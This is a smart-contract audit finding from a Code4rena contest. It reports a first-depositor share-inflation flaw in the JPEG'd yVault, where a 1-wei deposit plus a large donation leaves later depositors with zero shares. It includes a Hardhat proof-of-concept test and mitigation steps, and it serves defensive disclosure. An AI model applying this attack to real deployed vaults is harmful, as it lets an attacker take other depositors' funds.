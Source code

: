 ## Tags

- bug
- 3 (High Risk)
- disagree with severity
- resolved
- sponsor confirmed

# [yVault: First depositor can break minting of shares](https://github.com/code-423n4/2022-04-jpegd-findings/issues/12) 

# Lines of code

https://github.com/code-423n4/2022-04-jpegd/blob/main/contracts/vaults/yVault/yVault.sol#L148-L153


# Vulnerability details

## Details

The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719_ToB_yearn_vaultsv2/ToB_-_Yearn_Vault_v_2_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

## Proof of Concept

- Attacker deposits 1 wei to mint 1 share
- Attacker transfers exorbitant amount to the `StrategyPUSDConvex` contract to greatly inflate the share’s price. Note that the strategy deposits its entire balance into Convex when its `deposit()` function is called.
- Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

Insert this test into [`yVault.ts`](https://github.com/code-423n4/2022-04-jpegd/blob/main/tests/yVault.ts).

```jsx
it.only("will cause 0 share issuance", async () => {
  // mint 10k + 1 wei tokens to user1
  // mint 10k tokens to owner
  let depositAmount = units(10_000);
  await token.mint(user1.address, depositAmount.add(1));
  await token.mint(owner.address, depositAmount);
  // token approval to yVault
  await token.connect(user1).approve(yVault.address, 1);
  await token.connect(owner).approve(yVault.address, depositAmount);
  
  // 1. user1 mints 1 wei = 1 share
  await yVault.connect(user1).deposit(1);
  
  // 2. do huge transfer of 10k to strategy
  // to greatly inflate share price (1 share = 10k + 1 wei)
  await token.connect(user1).transfer(strategy.address, depositAmount);
  
  // 3. owner deposits 10k
  await yVault.connect(owner).deposit(depositAmount);
  // receives 0 shares in return
  expect(await yVault.balanceOf(owner.address)).to.equal(0);

  // user1 withdraws both his and owner's deposits
  // total amt: 20k + 1 wei
  await expect(() => yVault.connect(user1).withdrawAll())
    .to.changeTokenBalance(token, user1, depositAmount.mul(2).add(1));
});
```

## Recommended Mitigation Steps

- [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
- Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`

